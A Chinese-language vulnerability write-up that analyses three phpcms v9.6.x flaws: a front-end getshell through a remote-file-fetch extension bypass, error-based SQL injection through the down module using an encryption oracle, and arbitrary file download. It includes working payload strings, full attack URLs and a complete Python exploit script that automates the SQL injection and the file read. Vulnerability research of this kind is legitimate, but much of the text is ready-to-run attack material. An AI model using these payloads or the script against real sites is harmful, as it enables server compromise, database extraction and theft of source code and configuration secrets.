# phpcms v9.6.0 前台getshell
## 漏洞分析
漏洞发生在`phpcms9.6.0\phpcms\modules\member\index.php` 中的register函数，也就是对应着注册功能  
主要关注130行-136行之间的代码  
```php
//附表信息验证 通过模型获取会员信息
if($member_setting['choosemodel']) {
	require_once CACHE_MODEL_PATH.'member_input.class.php';
    require_once CACHE_MODEL_PATH.'member_update.class.php';
	$member_input = new member_input($userinfo['modelid']);		
	$_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
	$user_model_info = $member_input->get($_POST['info']);				        				
}
```
这里看到加载了两个类文件，实例化了`$member_input`变量，调用了它的get方法，跟踪到cache\_model下的member\_input.class.php  
`phpcms9.6.0\caches\caches_model\caches_data\member_input.class.php`
```php
	function get($data) {
		$this->data = $data = trim_script($data);
		$model_cache = getcache('member_model', 'commons');
		$this->db->table_name = $this->db_pre.$model_cache[$this->modelid]['tablename'];

		$info = array();
		$debar_filed = array('catid','title','style','thumb','status','islink','description');
		if(is_array($data)) {
			foreach($data as $field=>$value) {
				if($data['islink']==1 && !in_array($field,$debar_filed)) continue;
				$field = safe_replace($field);
				$name = $this->fields[$field]['name'];
				$minlength = $this->fields[$field]['minlength'];
				$maxlength = $this->fields[$field]['maxlength'];
				$pattern = $this->fields[$field]['pattern'];
				$errortips = $this->fields[$field]['errortips'];
				if(empty($errortips)) $errortips = "$name 不符合要求！";
				$length = empty($value) ? 0 : strlen($value);
				if($minlength && $length < $minlength && !$isimport) showmessage("$name 不得少于 $minlength 个字符！");
				if (!array_key_exists($field, $this->fields)) showmessage('模型中不存在'.$field.'字段');
				if($maxlength && $length > $maxlength && !$isimport) {
					showmessage("$name 不得超过 $maxlength 个字符！");
				} else {
					str_cut($value, $maxlength);
				}
				if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);
	            if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage("$name 的值不得重复！");
				$func = $this->fields[$field]['formtype'];
				if(method_exists($this, $func)) $value = $this->$func($field, $value);
	
				$info[$field] = $value;
			}
		}
		return $info;
	}
```
前面是一些对数据的检测，重点关注下如下代码  
```php
$func = $this->fields[$field]['formtype'];
if(method_exists($this, $func)) $value = $this->$func($field, $value);
```
这里的fields变量对应着`v9_model_field`的数据库，就是选出`$field`对应的`formtype`  
这里我们主要是利用editor函数  

然后跟进一下这个函数，就在59行左右  
```php
	function editor($field, $value) {
		$setting = string2array($this->fields[$field]['setting']);
		$enablesaveimage = $setting['enablesaveimage'];
		$site_setting = string2array($this->site_config['setting']);
		$watermark_enable = intval($site_setting['watermark_enable']);
		$value = $this->attachment->download('content', $value,$watermark_enable);
		return $value;
	}
```
跟进attachment的download函数
```php
	function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')
	{
		global $image_d;
		$this->att_db = pc_base::load_model('attachment_model');
		$upload_url = pc_base::load_config('system','upload_url');
		$this->field = $field;
		$dir = date('Y/md/');
		$uploadpath = $upload_url.$dir;
		$uploaddir = $this->upload_root.$dir;
		$string = new_stripslashes($value);
		if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
		$remotefileurls = array();
		foreach($matches[3] as $matche)
		{
			if(strpos($matche, '://') === false) continue;
			dir_create($uploaddir);
			$remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
		}
		unset($matches, $string);
		$remotefileurls = array_unique($remotefileurls);
		$oldpath = $newpath = array();
		foreach($remotefileurls as $k=>$file) {
			if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;
			$filename = fileext($file);
			$file_name = basename($file);
			$filename = $this->getname($filename);

			$newfile = $uploaddir.$filename;
			$upload_func = $this->upload_func;
			if($upload_func($file, $newfile)) {
				$oldpath[] = $k;
				$GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
				@chmod($newfile, 0777);
				$fileext = fileext($filename);
				if($watermark){
					watermark($newfile, $newfile,$this->siteid);
				}
				$filepath = $dir.$filename;
				$downloadedfile = array('filename'=>$filename, 'filepath'=>$filepath, 'filesize'=>filesize($newfile), 'fileext'=>$fileext);
				$aid = $this->add($downloadedfile);
				$this->downloadedfiles[$aid] = $filepath;
			}
		}
		return str_replace($oldpath, $newpath, $value);
	}
```
需要注意下这里处理的顺序
是先对传入的`$value`进行匹配-->然后再对进行url处理-->再获取最后一个`.`后面的字符为后缀名  
再对其进行url处理的时候，会处理掉`#`后面的符号，但是会保留`?`后面的符号  
于是就可以构造如下的`$value`进行绕过  
```
src=http://localhost/1.txt?.php#.jpg
```
这样在正则匹配时，就会绕过后缀名的检测，然后再取后缀时，去掉`#`后面的字符，获取到php的后缀，就可以getshell
  
最后还有一些漏洞触发的简单条件，就是之前进入editor时，要对应的field为content  

就要modelid为`1，2，3，11`中的一个 

## 漏洞利用
现在注册页面抓一个包

修改下modelid字段为2,删除birthday字段  
然后主要就是info[content]字段，构造成`src=http://localhost/1.txt?.php#.jpg`，进行简单的url编码  

看到由于插入出错还返回了文件地址`/uploadfile/2018/0706/20180706091311392.php`  
getshell  

  
# phpcms v9.6.0 前台sql注入
参考文章 https://chybeta.github.io/2017/08/04/%C2%96PHPCMS-v9-6-0-wap%E6%A8%A1%E5%9D%97sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
## 漏洞分析
### phpcms的sys_auth
我觉得这个东西还是有必要单独说明一下的。这个洞看了我将近一天的时间，一大半时间都花费在这个加密函数上  
这是`global.func.php`下的一个全局加密函数  
```php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0) {
	$ckey_length = 4;
	$key = md5($key != '' ? $key : pc_base::load_config('system', 'auth_key'));
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);

	$string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);

	$result = '';
	$box = range(0, 255);

	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}

	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}

	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}

	if($operation == 'DECODE') {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
			return '';
		}
	} else {
		return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
	}
}
```
本来一开始想着不是直接另外调用一下就可以进行简单的加解密了么。后来发现还是太年轻  
里面的`$key`变量是从配置文件中获取的一个随机密钥，只有获取到那个密钥，才能进行加解密。  
然后在phpcms中传输的许多数据，都通过这个函数进行加密，进行传输。服务端获取到密文后，再进行解密。  
导致自己构造数据的时候，会产生许多麻烦。  
  
这里采用的是利用`phpcms\modules\attachment\attachments.php`中约239行附件的`swfupload_json`函数
```php
	public function swfupload_json() {
		$arr['aid'] = intval($_GET['aid']);
		$arr['src'] = safe_replace(trim($_GET['src']));
		$arr['filename'] = urlencode(safe_replace($_GET['filename']));
		$json_str = json_encode($arr);
		$att_arr_exist = param::get_cookie('att_json');
		$att_arr_exist_tmp = explode('||', $att_arr_exist);
		if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
			return true;
		} else {
			$json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
			param::set_cookie('att_json',$json_str);
			return true;			
		}
	}
```
在最后进行set_cookie的时候，是会进行sys_auth的加密的  
这里我们选择控制$src变量,发现从GET传入后，经过了一个`safe_replace`的函数  
```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```
这里先提一下，这个函数，后面会涉及到
然后我们就可以控制整个json字符串的一小部分，并获取自己构造的数据加密后的密文  

在此之前，需要获取一个`userid_flash`变量，获取方式也很简单，访问一下`index.php?m=wap`页面，就可以获取返回包中设置的cookie

然后访问`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=【payload】`页面，就可以获取到加密后的密文

  
### down页面的sql注入
这里sql注入的产生原因，反而会比之前的加密部分更好理解。  
在`\phpcms\modules\content\down.php`中的init方法中  
```php
	public function init() {
		$a_k = trim($_GET['a_k']);
		if(!isset($a_k)) showmessage(L('illegal_parameters'));
		$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		unset($i,$m,$f);
		parse_str($a_k);
		if(isset($i)) $i = $id = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		$allow_visitor = 1;
		$MODEL = getcache('model','commons');
		$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		$this->db->table_name = $tablename.'_data';
		$rs = $this->db->get_one(array('id'=>$id));	
		……
```
这里是将GET传入的$a_k变量进行parse_str,找个官方的文档吧  

就是通过`&`符号将变量进行注册,**并进行url解码**  

然后将注册的变量$id，传入get_one方法，从而产生sql注入。（不过不在类里面防sql注入也是觉得很奇葩）  
看看正常的sql语句是怎么样的

由于phpcms默认是开始错误提示的，所以可以采用报错注入。  
构造下语句` 'and updatexml(1,concat(1,(user())),1)#`

然后传入sql语句前还有几个条件
- $i为空
- $m不为空
- $modelid and $catid 不为空
- $f不为空

最后还要绕过safe_replace
进行sql注入时，是需要将单引号逃逸出来的，所以只要传入`%2*7`,当`*`被吃掉时，正好留下了`%27`，然后利用url解码功能，就可以逃逸出单引号  

于是构造如下语句，就可以逃逸出单引号，并进入sql语句执行
```
&id=%2*7and updatexml(1,concat(1,(user())),1)#&m=1&modelid=1&catid=1&f=1
```
## 漏洞利用
漏洞利用就没那么复杂了，对于之前的sql语句进行url编码
```
%26id%3d%2*7and%20updatexml(1,concat(1,(user())),1)%23%26m%3d1%26modelid%3d1%26catid%3d1%26f%3d1
```
通过swfupload_json获取密文
```
/phpcms9.6.0/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id%3d%2*7and%20updatexml(1,concat(1,(user())),1)%23%26m%3d1%26modelid%3d1%26catid%3d1%26f%3d1
```

再将密文传入down页面
```
/index.php?m=content&c=down&a_k=d684Q3CxmPeTQawF5VPMJ14EOCG2oZgmIfrE-3seVFuTg-w96HxbgKtUZezyx3CHPHUPKtirp7GKRVPPGr7l0EB8LsXHIKZFbNrckmv7JgsLN-febFuXMTbSfP8B82XHpaFEgdnTZNqiH7rdmDZuy-M3Kbsb9iHQ3CfvwW2wCDu4M9L8DadlkWi_kJaXPaomsm5R7PF5hG0tahAb6U6TEoisxR_ULHXqESnOQzWOc-hvkXCaBKgGypgdpJZA
```
成功产生注入

  
  
# phpcms v9.6.1 任意文件下载
## 漏洞分析
漏洞的产生还是在`\phpcms\modules\content\down.php`中  
主要是`init()`与`download()`函数  
`init()`主要是利用传入的`$a_k`值，然后生成加密后的下载url  
url是指向`download()`的，然后进行解密，过滤，然后下载对应文件  
  
先来分析一下download函数
```php
	public function download() {
		$a_k = trim($_GET['a_k']);
		$pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
		$a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		unset($i,$m,$f,$t,$ip);
		$a_k = safe_replace($a_k);
		parse_str($a_k);		
		if(isset($i)) $downid = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		if(!$i || $m<0) showmessage(L('illegal_parameters'));
		if(!isset($t)) showmessage(L('illegal_parameters'));
		if(!isset($ip)) showmessage(L('illegal_parameters'));
		$starttime = intval($t);
		if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error'));
		$fileurl = trim($f);
		if(!$downid || empty($fileurl) || !preg_match("/[0-9]{10}/", $starttime) || !preg_match("/[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}/", $ip) || $ip != ip()) showmessage(L('illegal_parameters'));	
		$endtime = SYS_TIME - $starttime;
		if($endtime > 3600) showmessage(L('url_invalid'));
		if($m) $fileurl = trim($s).trim($fileurl);
		if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));
		//远程文件
		if(strpos($fileurl, ':/') && (strpos($fileurl, pc_base::load_config('system','upload_url')) === false)) { 
			header("Location: $fileurl");
		} else {
			if($d == 0) {
				header("Location: ".$fileurl);
			} else {
				$fileurl = str_replace(array(pc_base::load_config('system','upload_url'),'/'), array(pc_base::load_config('system','upload_path'),DIRECTORY_SEPARATOR), $fileurl);
				$filename = basename($fileurl);
				//处理中文文件
				if(preg_match("/^([\s\S]*?)([\x81-\xfe][\x40-\xfe])([\s\S]*?)/", $fileurl)) {
					$filename = str_replace(array("%5C", "%2F", "%3A"), array("\\", "/", ":"), urlencode($fileurl));
					$filename = urldecode(basename($filename));
				}
				$ext = fileext($filename);
				$filename = date('Ymd_his').random(3).'.'.$ext;
				$fileurl = str_replace(array('<','>'), '',$fileurl);
				file_down($fileurl, $filename);
			}
		}
	}
```
可以看到一开始用了一个更复杂的密钥进行解密，所以这里就只能利用init中生成的url进行下载
  
然后还是通过`parse_str($a_k)`获取并解析，这里还是会用到`parse_str`会进行url解析的特性
参数里主要是`$s`参数是要下载的文件名，`$f`是要下载文件的后缀  
这里对后缀进行了很多的防御  
不能有危险字符，不能有`..`、`:\\`之类的符号  
  
最主要的就是在下载文件之前对尖括号的过滤，导致了任意文件下载的发生
```php
$fileurl = str_replace(array('<','>'), '',$fileurl);
file_down($fileurl, $filename);
```
这样，我们只要在`$f`中构造`.ph<p`这样的变量，就可以绕过前面的检测，从而下载到php文件  

还有个问题就是传入`<`时，会被一开始的`$a_k = safe_replace($a_k)`语句给过滤掉  
这时候就可以利用parse_str会进行url解析的特性传入`%3c`就能顺利将`<`引入
  
然后就是在`init()`中构造正确url,这里还能利用之前sql注入中一样的方式  
利用`swfupload_json()`函数获取加密后的`$a_k`  
  
然后就可以利用返回的$a_k传入`init()`函数，生成对应的url  
  
##漏洞证明
自己写了个exp,顺便把之前sql注入的部分也给加进去了
```python
import requests
import re

class PHPCMS():
	def __init__(self, url):
		self.url = self._genurl(url)


	def _genurl(self, url):
		url = url.strip()
		if not url.startswith('http'):
			url = 'http://'+url
		if url.endswith('/'):
			return url
		else:
			return url+'/'

	def _getuserid(self):
		url = self.url + 'index.php?m=wap'
		r = requests.get(url)

		return r.headers['Set-Cookie'][13:]

	def get_auth(self, payload):
		url = self.url+'index.php?m=attachment&c=attachments&a=swfupload_json&aid=1'
		userid = self._getuserid()

		r = requests.post(url,params={'src':payload} , data={'userid_flash': userid})

		for x, y in re.findall(r'([^;, ]+)=([^;, ]+)', r.headers['Set-Cookie']):
			if 'att_json' in x:
				return y
		return False

	def sqli(self):
		url = self.url+'index.php?m=content&c=down'
		payload = "&id=%2*7and updatexml(1,concat(1,(database())),1)#&m=1&modelid=1&catid=1&f=1"
		a_k = self.get_auth(payload)

		r = requests.get(url, params={'a_k': a_k})
		print(re.findall(r"XPATH syntax error: '(.+?)'", r.text))

	def filedown(self, filename):
		url = self.url + 'index.php?m=content&c=down&a=init'
		payload = r'pad=x&i=1&modelid=1&catid=1&d=1&m=1&s={}&f=.p%253chp'.format(filename)
		a_k = self.get_auth(payload)

		r = requests.get(url, params={'a_k': a_k})

		match = re.search(r'<a href="(.+?)" class="xzs_btn"', r.text)
		if match is not None:
		 	r = requests.get(self.url+'index.php'+match.group(1))
		 	print(r.text)
		else:
			print('error')

def main():
	exp = PHPCMS('127.0.0.1/phpcms9.6.1')
	exp.filedown('index')

if __name__ == '__main__':
	main()
```
就可以进行任意文件的读取
